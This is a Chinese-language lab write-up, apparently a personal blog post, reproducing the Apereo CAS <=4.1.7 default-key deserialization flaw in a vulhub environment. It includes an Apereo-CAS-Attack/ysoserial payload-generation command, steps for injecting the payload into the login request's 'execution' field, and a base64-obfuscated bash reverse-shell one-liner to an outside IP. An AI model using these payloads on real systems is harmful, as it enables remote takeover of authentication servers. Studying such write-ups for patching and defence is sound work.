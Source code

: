```yaml
---
title: Apereo CAS 4.1 反序列化命令执行漏洞复现
author: jh2ng
cover: 'http://image.jh2ing.com/image-20220702172902702.png'
tags:
  - vulhub
categories:
  - 漏洞复现
abbrlink: 60630
date: 2022-07-02 20:00:00
---
```


### Apereo CAS 4.1 反序列化命令执行漏洞

#### 漏洞描述

Apereo CAS是一款Apereo发布的集中认证服务平台，常被用于企业内部单点登录系统。Apereo CAS存在一处默认密钥的问题，利用这个默认密钥我们可以构造恶意信息触发目标反序列化漏洞，进而执行任意命令。

#### 影响版本

Apereo CAS <= 4.1.7 

#### 环境搭建

![image-20220702172835955](http://image.jh2ing.com/image-20220702172835955.png)

环境启动后，访问`http://your-ip:8080/cas/login`即可查看到登录页面。

![image-20220702172902702](http://image.jh2ing.com/image-20220702172902702.png)



#### 漏洞复现

漏洞原理实际上是Webflow中使用了默认密钥`changeit`：

```
public class EncryptedTranscoder implements Transcoder {
    private CipherBean cipherBean;
    private boolean compression = true;

    public EncryptedTranscoder() throws IOException {
        BufferedBlockCipherBean bufferedBlockCipherBean = new BufferedBlockCipherBean();
        bufferedBlockCipherBean.setBlockCipherSpec(new BufferedBlockCipherSpec("AES", "CBC", "PKCS7"));
        bufferedBlockCipherBean.setKeyStore(this.createAndPrepareKeyStore());
        bufferedBlockCipherBean.setKeyAlias("aes128");
        bufferedBlockCipherBean.setKeyPassword("changeit");
        bufferedBlockCipherBean.setNonce(new RBGNonce());
        this.setCipherBean(bufferedBlockCipherBean);
    }

    // ...
```

我们使用[Apereo-CAS-Attack](https://github.com/vulhub/Apereo-CAS-Attack)来复现这个漏洞。使用ysoserial的CommonsCollections4生成加密后的Payload：

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/success"
```

![image-20220702173138357](http://image.jh2ing.com/image-20220702173138357.png)

然后我们登录CAS并抓包，将Body中的`execution`值替换成上面生成的Payload发送：

![image-20220702173613099](http://image.jh2ing.com/image-20220702173613099.png)

登录Apereo CAS，可见`touch /tmp/success`已成功执行：

![image-20220702173816165](http://image.jh2ing.com/image-20220702173816165.png)

反弹shell：

```
# 对shell语句进行base64加密
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTIu.....}|{base64,-d}|{bash,-i}
```

![image-20220702200352565](http://image.jh2ing.com/image-20220702200352565.png)

![image-20220702200450867](http://image.jh2ing.com/image-20220702200450867.png)

![image-20220702200557519](http://image.jh2ing.com/image-20220702200557519.png)

> 建议在base64加密时使用burp中的加密工具


#### 修复建议

- 修改Webflow中的默认密钥
- 升级到最新版

